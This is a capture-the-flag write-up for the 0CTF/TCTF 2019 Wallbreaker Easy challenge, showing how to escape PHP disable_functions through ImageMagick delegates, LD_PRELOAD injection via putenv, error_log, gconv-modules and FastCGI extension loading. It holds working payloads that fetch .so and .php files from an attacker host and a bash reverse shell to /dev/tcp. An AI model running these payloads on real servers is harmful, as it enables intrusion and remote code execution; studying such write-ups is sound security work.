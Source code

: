 ### References

- [@rmb122, 0ctf Wallbreaker Easy 详细 Writeup, 2019-03-28](https://xz.aliyun.com/t/4589)
- [@mdsnins, WallbreakerEasy.md, 2019-05-27](https://github.com/mdsnins/ctf-writeups/blob/master/2019/0ctf%202019/Wallbreaker%20Easy/WallbreakerEasy.md)

**Tag: ImageMagick bypass disbale_functions**

1.disable_functions:

```tex
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail
```

Both `mail()` and `imap_open()` which are famous disable_functions bypass methods are disabled. But we have `putenv()`, which make LD_PRELOAD injection available is not disabled.

In addition, functions for file read/write (`file_put_contents`, `file_get_contents`) are not blocked, we can upload our any files.

2.The description said `php-imagick` is installed, and we also can check the Imagick in phpinfo. Imagick version is 3.4.3RC2 (with ghostscript 9.26) which already patched GhostScript vulnerability.

As we know the `php-imagick` is just a PHP extension of the `ImageMagick`. In the `ImageMagick` [Supported Image Formats](https://imagemagick.org/script/formats.php), it supports reading over 100 major file formats and some requires Ghostscript to read.

```tex
EPI EPS EPS2 EPS3 EPSF EPSI EPT PDF PS PS2 PS3
```

But in latest version of ImageMagick, for security reasons, the default configuration file disables some formatting calls to Ghostscript:

```bash
$ cat /etc/ImageMagick-6/policy.xml | grep -i -A 10 "ghostscript"
  <!-- disable ghostscript format types -->
  <policy domain="coder" rights="none" pattern="PS" />
  <policy domain="coder" rights="none" pattern="PS2" />
  <policy domain="coder" rights="none" pattern="PS3" />
  <policy domain="coder" rights="none" pattern="EPS" />
  <policy domain="coder" rights="none" pattern="PDF" />
  <policy domain="coder" rights="none" pattern="XPS" />
</policymap>
```

So may be we can use the `.ept` file, use `convert` to get a EPT file and test:

```bash
$ sudo apt install imagemagick
$ convert image.png ept:test.ept
$ file test.ept
test.ept: DOS EPS Binary File Postscript starts at byte 30 length 64676 TIFF starts at byte 64706 length 21274
```

The file command shows that it is still an `eps` file. Idk what’s the connection between them, testing found that this file does not seem to work...

```bash
$ strace -f php -r "new Imagick('test.ept');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "new Imagick('test.ept');"], 0x7ffeb255bc98 /* 60 vars */) = 0
```

And if we comment the policy of eps, we can see it call `gs`:

```bash
$ strace -f php -r "new Imagick('test.ept');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "new Imagick('test.ept');"], 0x7fff3e464498 /* 60 vars */) = 0
[pid 22578] execve("/usr/local/sbin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = -1 ENOENT (No such file or directory)
[pid 22578] execve("/usr/local/bin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = -1 ENOENT (No such file or directory)
[pid 22578] execve("/usr/sbin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = -1 ENOENT (No such file or directory)
[pid 22578] execve("/usr/bin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = 0
```

3.In official ImageMagick github, the [QuickStart.txt](https://github.com/ImageMagick/ImageMagick/blob/7.0.11-11/QuickStart.txt#L62) has following contents:

```tex
ImageMagick depends on a number of external configuration files which include colors.xml, delegates.xml, and others. ImageMagick searches for configuration files in the following order, and loads them if found: ...
```

we can find in the file `delegates.xml` defines the rules for ImageMagick handling of various file types:

```tex
<delegatemap>
    ......
  <delegate decode="png" encode="webp" command="&quot;cwebp&quot; -quiet %Q &quot;%i&quot; -o &quot;%o&quot;"/>
</delegatemap>
```

When encoding and decoding these formats, ImageMagick will call some external commands. But most of these are actually not installed by default.

So if we can find the command that comes with the system, we can use LD_PRELOAD injection and execute arbitrary commands:

```bash
$ cat /etc/ImageMagick-6/delegates.xml | grep -E "command=\"/bin|command=\"sh"

  <delegate decode="jxr" command="/bin/mv &quot;%i&quot; &quot;%i.jxr&quot;; &quot;JxrDecApp&quot; -i &quot;%i.jxr&quot; -o &quot;%o.pnm&quot;; /bin/mv &quot;%i.jxr&quot; &quot;%i&quot;; /bin/mv &quot;%o.pnm&quot; &quot;%o&quot;"/>
  <delegate decode="bmp" encode="jxr" command="/bin/mv &quot;%i&quot; &quot;%i.bmp&quot;; &quot;JxrEncApp&quot; -i &quot;%i.bmp&quot; -o &quot;%o.jxr&quot;; /bin/mv &quot;%i.bmp&quot; &quot;%i&quot;; /bin/mv &quot;%o.jxr&quot; &quot;%o&quot;"/>
  <delegate decode="bmp" encode="wdp" command="/bin/mv &quot;%i&quot; &quot;%i.bmp&quot;; &quot;JxrEncApp&quot; -i &quot;%i.bmp&quot; -o &quot;%o.jxr&quot;; /bin/mv &quot;%i.bmp&quot; &quot;%i&quot;; /bin/mv &quot;%o.jxr&quot; &quot;%o&quot;"/>
  <delegate decode="wdp" command="/bin/mv &quot;%i&quot; &quot;%i.jxr&quot;; &quot;JxrDecApp&quot; -i &quot;%i.jxr&quot; -o &quot;%o.bmp&quot;; /bin/mv &quot;%i.jxr&quot; &quot;%i&quot;; /bin/mv &quot;%o.bmp&quot; &quot;%o&quot;"/>
```

The system command `/bin/mv` is called when converting format `bmp` to `jxr` or `wdp`. So the delegate can be invoked by simply converting the format. Let's test again :)

```bash
$ cat test.php                                             
<?php
$a = new Imagick();
$a->readImage('image.png');
$a->writeImage('test.wdp');

$ strace -f php test.php 2&>1
^C

$ cat 1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "test.php"], 0x7ffdefcc96a0 /* 60 vars */execve("/usr/bin/php", ["php", "test.php"], 0x7ffdefcc96a0 /* 60 vars */) = 0
...
[pid 31904] execve("/bin/mv", ["/bin/mv", "/tmp/magick-31900zQd4OLFMRuti.jx"..., "/tmp/magick-31900zQd4OLFMRuti"], 0x558dec09d7d8 /* 60 vars */ <unfinished ...>
[pid 31904] execve("/bin/mv", ["/bin/mv", "/tmp/magick-31900zQd4OLFMRuti.jx"..., "/tmp/magick-31900zQd4OLFMRuti"], 0x558dec09d7d8 /* 60 vars */) = 0
```

Even if the image conversion fails because `JxrEncApp` does not exist, we can execute arbitrary command as long as a new process is started because of `/bin/mv`

4.**open_basedir: /var/www/html:/tmp/46c01c941bd10a9c3038752f7354f2e8**

Upload the `evil.so`, `evil.php` and whatever image with the backdoor:

```php
backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/evil.so", file_get_contents("http://192.168.200.1:8000/evil.so"));

backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/image.png", file_get_contents("http://192.168.200.1:8000/image.png"));

backdoor=file_put_contents("/var/www/html/evil.php", file_get_contents("http://192.168.200.1:8000/evil.php"));
```

then visit `evil.php` to get the reverse shell

![img1](./assets/img1.png?raw=true)

### Other way to exploit

Compare with the following:

```bash
$ strace -f php -r "mail('','','','');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "mail('','','','');"], 0x7ffe4a449a58 /* 60 vars */) = 0
[pid 32548] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], 0x5560e3ed6eb0 /* 60 vars */ <unfinished ...>
[pid 32548] <... execve resumed>)       = 0
[pid 32549] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i"], 0x561c6dbcef98 /* 60 vars */) = -1 ENOENT (No such file or directory)

$ strace -f php -r "error_log('',1);" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "error_log('',1);"], 0x7fffecdffdf8 /* 9 vars */) = 0
[pid    67] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], 0x55b70a326e70 /* 9 vars */ <unfinished ...>
[pid    67] <... execve resumed> )      = 0
[pid    68] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i"], 0x55a53d4b0bd0 /* 9 vars */) = -1 ENOENT (No such file or directory)
```

So the `error_log` also available. Just use it to replace `mail` function:

```php
<?php
    putenv("cmd=bash -c 'exec bash -i &>/dev/tcp/192.168.200.1/9001 <&1'");
    putenv("LD_PRELOAD=/tmp/46c01c941bd10a9c3038752f7354f2e8/evil.so");
    error_log('', 1);
```

### After story

Check this out: https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80

```php
backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/payload.so", file_get_contents("http://192.168.200.1:8000/payload.so"));

backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/gconv-modules", file_get_contents("http://192.168.200.1:8000/gconv-modules"));

backdoor=file_put_contents("/var/www/html/poc.php", file_get_contents("http://192.168.200.1:8000/poc.php"));
```

![img2](./assets/img2.png?raw=true)

### Other way again

In the [original repo](https://github.com/mo-xiaoxi/CTF_Web_docker/tree/master/TCTF2019/Wallbreaker_Easy) of the challenge, the author found an interesting parameter, `MAGICK_CODER_MODULE_PATH`, in the [document](https://www.imagemagick.org/script/resources.php#Environment%20Variables), it can permits the user to arbitrarily extend the image formats supported by ImageMagick by adding loadable coder modules from an preferred location rather than copying them into the ImageMagick installation directory.

![img3](./assets/img3.png?raw=true)

### Final

In the 0CTF/TCTF 2019 Final#Wallbreaker (not very) Hard, The same environment is used but with `putenv` disabled :p

Refer: [writeup](https://balsn.tw/ctf_writeup/20190608-0ctf_tctf2019finals/#wallbreaker-(not-very)-hard), using the `extension` to bypass `disable_functions` to RCE. Just need to write the `extension_dir` and `extension` in `PHP_ADMIN_VALUE`, then we can load arbitrary extension.

Using [FuckFastcgi](https://github.com/w181496/FuckFastcgi/) to create FastCGI payload to overwrite settings.

```php
backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/hello.so", file_get_contents("http://192.168.200.1:8000/hello.so"));

backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/rshell.php", file_get_contents("http://192.168.200.1:8000/rshell.php"));

backdoor=file_put_contents("/var/www/html/poc.php", file_get_contents("http://192.168.200.1:8000/poc.php"));
```

visit `poc.php` will request `index.php`(file pointed to by `SCRIPT_FILENAME`) and prepend the `rshell.php`, then we can get the reverse shell.
